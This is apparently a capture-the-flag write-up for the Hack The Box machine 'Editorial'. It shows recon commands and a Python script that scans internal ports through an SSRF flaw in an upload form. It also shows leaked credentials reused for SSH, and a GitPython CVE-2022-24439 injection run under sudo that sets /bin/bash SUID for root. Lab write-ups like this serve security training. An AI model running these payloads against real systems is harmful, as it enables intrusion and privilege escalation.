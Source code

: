```yaml
---
layout: single
title: Editorial - Hack The Box
excerpt: "Editorial is an easy difficulty Linux machine that features a publishing web application vulnerable to 'Server-Side Request Forgery (SSRF)'. This vulnerability is leveraged to gain access to an internal running API, which is then leveraged to obtain credentials that lead to `SSH` access to the machine. Enumerating the system further reveals a Git repository that is leveraged to reveal credentials for a new user. The 'root' user can be obtained by exploiting [CVE-2022-24439](https://nvd.nist.gov/vuln/detail/CVE-2022-24439) and the sudo configuration."
date: 2025-05-14
classes: wide
header:
  teaser: /img2/editorial.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Virtual Hosting
  - Abusing File Upload
  - Server Side Request Forgery (SSRF) Exploitation + Internal Port Discovery
  - API enumeration through SSRF
  - Private Github Project Enumeration + Information Leakage
  - Abusing sudoers [Privilege Escalation] - GitPython Exploitation (CVE-2022-24439)
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.20
```

![](/img2/Pasted%20image%2020250513193159.png)

- Whatweb

```bash
whatweb http://editorial.htb/
```

![](/img2/Pasted%20image%2020250513193605.png)

## Exploitation

- Cross-Site Request Forgery (CSRF)

![](/img2/Pasted%20image%2020250513202442.png)

```bash
python3 -m http.server 80
```

![](/img2/Pasted%20image%2020250513202527.png)

![](/img2/Pasted%20image%2020250513202610.png)

- Internal Port Discovery

```python
import requests
import json


url = "http://editorial.htb/upload-cover"

headers = {
    "Host": "editorial.htb",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "multipart/form-data; boundary=---------------------------95631414351576674691067>
    "Origin": "http://editorial.htb",
    "Connection": "close",
    "Referer": "http://editorial.htb/upload",
    "Priority": "u=0"
}


for i in range(1,10000):
  data = (
    "-----------------------------956314143515766746910679362\r\n"
    'Content-Disposition: form-data; name="bookurl"\r\n'
    "\r\n"
    f"http://127.0.0.1:{i}/\r\n"
    "-----------------------------956314143515766746910679362\r\n"
    'Content-Disposition: form-data; name="bookfile"; filename=""\r\n'
    "Content-Type: application/octet-stream\r\n"
    "\r\n"
    "\r\n"
    "-----------------------------956314143515766746910679362--\r\n"
 )

  response = requests.post(url, headers=headers, data=data)
  if response.text.split(".")[-1] != "jpeg":
    print(f"[+] Port [{i}] --> {response.text.split()}")
    url2=f"http://editorial.htb/{response.text.strip()}"
    response2=requests.get(url2)
    raw= response2.text
    parsed=json.loads(raw)
    pretty=json.dumps(parsed,indent=2)
    print(pretty)
```

```bash
python3 bruteforce.py
```

![](/img2/Pasted%20image%2020250513214600.png)

- API and CSRF

![](/img2/Pasted%20image%2020250514101432.png)

```bash
curl http://editorial.htb/static/uploads/4e46c640-61de-42f9-9477-7388274ea064
```

```
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."       }
```

- Connect to ssh

```bash
ssh dev@10.10.11.20
```

## Post-exploitation

- Check hidden files 

```bash
ls -la
```

![](/img2/Pasted%20image%2020250514102037.png)

- Check git commits

```bash
git log --oneline
```

![](/img2/Pasted%20image%2020250514102938.png)

```bash
git show b73481b
```

![](/img2/Pasted%20image%2020250514103044.png)

- Pivoting

```bash
su prod
```

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250514103212.png)

- Exploit GitPython (CVE-2022-24439)

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'
```

```bash
bash -p
```

![](/img2/Pasted%20image%2020250514105308.png)